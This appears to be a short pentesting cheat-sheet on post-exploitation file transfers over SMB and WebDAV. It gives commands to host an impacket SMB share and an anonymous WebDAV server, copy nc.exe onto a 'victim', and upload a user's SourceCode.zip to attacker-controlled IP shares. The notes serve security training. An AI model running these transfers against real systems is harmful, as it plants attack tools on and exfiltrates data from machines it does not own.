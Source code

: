 ```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

For enabling downloads to victim

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

```cmd-session
copy n:\nc.exe
```

#### Installing WebDav Python modules
```bash
sudo pip3 install wsgidav cheroot
```
#### Using the WebDav Python module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Connecting to the Webdav Share
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #SMB-File-Transfers